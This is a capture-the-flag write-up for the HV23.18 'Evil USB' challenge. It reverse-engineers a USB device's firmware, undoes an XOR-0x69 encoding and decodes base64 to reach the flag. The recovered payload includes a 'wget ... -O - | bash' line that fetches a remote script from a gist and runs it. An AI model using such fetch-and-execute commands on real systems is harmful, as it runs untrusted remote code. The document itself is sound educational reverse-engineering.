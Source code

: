 # [HV23.18] Evil USB

## Introduction

Difficulty: Hard<br>
Author: coderion

An engineer at SantaSecCorp has found a suspicious device stuck in the USB port of his computer. It doesn't seem to work anymore, but we managed to dump the firmware for you. Please help us find out what the device did to their computer.

## Solution

After initially running `strings` on the provided firmware, I noticed some interesting strings, so I knew I had to search for `base64`-encoded data, which I did not seem to find.

```
> strings firmware.elf
Scheduled activation in
 hours
Running payload... Never gonna give you up btw
base64 -d data > data_decoded
```

I opened up the firmware in ghidra and after some time I noticed an `XOR`-loop with the funny number `0x69` inside the `setup` function:

```c
do {
    pbVar18 = pbVar15 + 1;
    *pSVar12 = (String)(*pbVar15 ^ 0x69);
    pSVar12 = pSVar12 + 1;
    pbVar15 = pbVar18;
} while ((byte)pbVar18 != (byte)(bVar7 + 0xb1) ||
        (char)((uint)pbVar18 >> 8) !=
        (byte)((bVar9 - ((bVar7 < 0x4f) + -2)) + ((byte)pbVar18 < (byte)(bVar7 + 0xb1))));
```

So I once again did, what any reasonable person would do, and uploaded the entire firmware file to CyberChef and `XOR`'ed with `0x69`, which gave me the following String `echo d2dldCBodHRwczovL2dpc3QuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2dpYW5rbHVnLzZkYTYzYTA3NGU2NjJkODYyMWQxM2ZmN2FmYzc0ZGUxL3Jhdy81ZjY1ODkyOTJhNWMxZjM3NDNkNGQwZjYyMmNlODJlODA5OGFhMDM4L2hvbWV3b3JrLnR4dCAtTyAtIHwgYmFzaAo= > data` (in the middle of non-sense).

Base64-Decoding that String gives us the following:
```
wget https://gist.githubusercontent.com/gianklug/6da63a074e662d8621d13ff7afc74de1/raw/5f6589292a5c1f3743d4d0f622ce82e8098aa038/homework.txt -O - | bash
```

Going to that gist-file gives us the following:
```
#!/bin/bash
wget https://gist.githubusercontent.com/gianklug/5e8756afc93211b15fe995f469add994/raw/5d5b86307181309c4bbbe021c94d75b9e07e6f8c/gistfile1.txt -O - | base64 -d > cat.png
```

On that gist-file there is once against base64-data, which after decoding gives us the image of a cat.

![cat](cat.png)

Inside the exif-data of the image is the flag, with which I will have to disagree, Arduino is not fun.

Flag: `HV23{4dru1n0_1s_fun}`